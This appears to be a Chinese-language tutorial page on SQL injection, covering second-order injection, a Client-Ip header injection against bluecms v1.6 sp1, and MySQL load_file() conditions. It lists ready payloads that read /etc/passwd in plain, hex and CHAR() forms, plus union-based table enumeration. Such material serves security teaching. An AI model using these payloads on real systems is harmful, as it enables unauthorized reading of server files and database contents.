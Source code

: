 - 如果攻击实现,在响应中像攻击者反应结构

  

二阶注入,作为sql注入的一种,他不同于普通的sql注入,恶意代码被注入到web应用中不立即执行,而

是存储到后端的数据库中,在处理另一次不同的请求时,应用检索到数据库中的恶意输入并利用它动态

构建sql语句,实现了攻击。



二阶sql注入的攻击过程归纳如下:

- 攻击者在一个HTTP请求中提交恶意输入
- 用于将恶意输入保存在数据库中
- 攻击者提交第二个HTTP请求
- 为处理第二个HTTP请求,应用检索存储在后端数据库中的恶意输入,动态构建sql语句
- 如果攻击实现,在第二个请求的响应中向攻击者返回结构



一个实际的例子请看：http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2014-074893



### XFF头注入

一个实际的例子是在bluecms v1.6 sp1 版本中在留言页面，通过在头部注入：`Client-Ip: 127.0.0.3',@@datadir)#`

如下图：

[![rer2e1.png](https://s3.ax1x.com/2020/12/13/rer2e1.png)](https://imgchr.com/i/rer2e1)



注入之后的结果如下：

[![rer4JO.png](https://s3.ax1x.com/2020/12/13/rer4JO.png)](https://imgchr.com/i/rer4JO)





### mysql 注入-load_file()函数

load_file() 函数注入的条件：

- 文件必须在服务器上
- 知道站点物理路径
- MySQL用户必须拥有对此文件读取的权限
- LOAD_FILE()函数操作文件的当前目录是@@datadir(即数据库存储路径)
- 文件大小必须小于 max_allowed_packet,@@max_allowed_packet的默认大小是16M



例子：

```sql
Union select 1,load_file(‘/etc/passwd’),3,4#
Union select 1,load_file(0x2f6574632f706173737764),3,4#
Union select 1,load_file(CHAR(47, 101, 116, 99, 47, 112, 97, 115, 115,119, 100)),3,4#
1' union select 1,table_name from information_schema.tables where table_schema='dvwa'#
/*!select*/ * from users;
select benchmark(10000000, encode("hello", "world"))
select concat(user(), database(), version())
select concat_ws(",",user(), database(), version())
```
